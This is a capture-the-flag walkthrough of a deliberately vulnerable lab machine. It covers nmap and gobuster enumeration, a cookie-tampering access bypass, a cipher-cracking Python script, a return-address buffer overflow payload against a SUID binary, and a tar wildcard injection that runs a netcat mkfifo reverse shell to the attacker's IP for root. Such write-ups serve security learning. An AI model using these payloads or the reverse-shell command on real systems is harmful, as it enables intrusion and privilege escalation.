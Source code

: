#### Flag 1
- I stared with a basic nmap scan on the top 1000 ports `nmap -sV IP -v`
- That revealed http and ssh, so I went to the website
- There was nothing interesting in the source code or pages I could find from source alone, so I used gobuster to enumerate
```
└─$ gobuster dir -u 10.10.51.244 -w /usr/share/dirb/wordlists/common.txt
```
- That brought me to the page `/robots.txt`
```
User-agent: *
Disallow: /zYdHuAKjP
```
- Navigating to the path, the page had an `access denied` message
- This usually indicates something to do with user agents or cookies, so I checked cookies first with inspect
- There was an `access` token with the value `denied` so I just changed it to `granted` and reloaded the page
- The access page had this string
```
hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
```
> Hint: You're going to want to write a Python script for this. 'zA' = 'a'
- From this I assumed that every two letters map to one letter, and some type of substitution cipher was at play
- If every two letters maps to one letter, then the username has to be 5 characters long
```
hE zA dC fH zA :: hE zA dC fH zA hA iJ zA eI aD jB cB hH gA zA fH fN
```
- In the `/operatives.php` page on the site, there is a list of usernames to test with this
- `magna` is the only username that matches the `zA` rule with an a for the second and last letter
- From this we know
```
hE = m
zA = a
dC = g
fH = n
zA = a
```
- Reconstructing the password so far `magna__a______an_`
- After thinking on it, I realized that the resulting letter is the index of the sum of the indexes of the two letters
- ex// f = 6 and h = 8 becomes n = 14
```python
# yes you have to write it as a list don't use list(), I used code to do that cus I'm lazy
alphabet = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
cipher = ['hE', 'zA', 'dC', 'fH', 'zA', 'hA', 'iJ', 'zA', 'eI', 'aD', 'jB', 'cB', 'hH', 'gA', 'zA', 'fH', 'fN']

passwd = []

for letter in cipher:
    l1 = int(alphabet.index(letter[0].lower())) + 1
    l2 = int(alphabet.index(letter[1].lower())) + 1

    s = l1 + l2

    if s == 27:
        passwd.append('a')
    else:
        ch = alphabet[s - 1]
        passwd.append(ch)

print(''.join(passwd))
```
- Result: `magnaisanelephant`
```
magna@anonymous-playground:~$ ls
flag.txt  hacktheworld  note_from_spooky.txt
magna@anonymous-playground:~$ cat flag.txt
```
- First flag down two to go
#### Flag 2
- `sudo -l` showed that magna can't run sudo at all, so we have to escalate privs some other way
- There were two notable files in magna's home directory
```
-rwsr-xr-x 1 root   root   8528 Jul 10  2020 hacktheworld
-rw-r--r-- 1 spooky spooky  324 Jul  6  2020 note_from_spooky.txt
```
- `hacktheworld` has the suid bit set, so I focused on that file
```
magna@anonymous-playground:~$ strings hacktheworld 
/lib64/ld-linux-x86-64.so.2
)Kk1
libc.so.6
setuid
...
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
/bin/sh
Who do you want to hack?
...
[ ETC ]
```
- There were no explicit file calls to manipulate here, so I assumed it required actual reverse engineering 
- I _really_ didn't want to do that, but considering the note from spooky:
```
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```
- I don't think I have a choice </3
- Since `radare2` is installed, I used that to analyze the code
- The `main` function prints the strings, then completes the setuid action (setting it to 1337 for spooky) before running /bin/sh
- From this we can deduce it is some type of buffer overflow (probably stack based)
- There are definitely more technical ways to do this to find the buffer size, but I decided to use trial and error
```
magna@anonymous-playground:~$ for i in {1..80}; do echo $i; python -c "print('A' * $i)" | ./hacktheworld; done
1
Who do you want to hack? 2
Who do you want to hack? 3
Who do you want to hack? 4
...
Who do you want to hack? 72
Segmentation fault (core dumped)
```
- This verifies that buffer overflow si the method to go through with
- Since this is a binary file I used readelf to find where the bash fuction is executed (you can also use radare2 -> s bash)
```
magna@anonymous-playground:~$ readelf -a hacktheworld | grep bash
    50: 0000000000400657   129 FUNC    GLOBAL DEFAULT   13 call_bash
```
- Using this address we can create the python payload
```python
#!/usr/bin/env python
from struct import *

b = ""
b += "A" * 64                      
b += pack("<Q", 0x0000000000400657)   
print(b)
```
- Then run it with `(python pload.py; cat) | ./hacktheworld` - note python instead of python3 to avoid byte errors
```
magna@anonymous-playground:~$ (python pload.py; cat) | ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
whoami
spooky
python -c 'import pty;pty.spawn("/bin/bash")'                
spooky@anonymous-playground:~$ cd ../spooky
spooky@anonymous-playground:/home/spooky$ cat flag.txt
```
- Tip - if your shell gets frozen bc of questionable laptop specs (like mine) CTRL+Z to suspend the python script and rerun it
#### Flag 3
- I don't know spooky's password so I can't run `sudo -l`. Instead I start by checking crontab with `cat /etc/crontab`
```
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```
- This [source](https://www.exploit-db.com/papers/33930) from exploit-db helped me find the solution
- `shell.sh` is a simple reverse shell made with `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.2.91.174 7777 >/tmp/f' > shell.sh`
```
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint=1"
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
```
- I set up a listener with `nc -lvnp 7777`
```
─$ nc -lvnp 7777         
listening on [any] 7777 ...
connect to [10.2.91.174] from (UNKNOWN) [10.10.51.244] 60660
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
flag.txt
# cat flag.txt
```

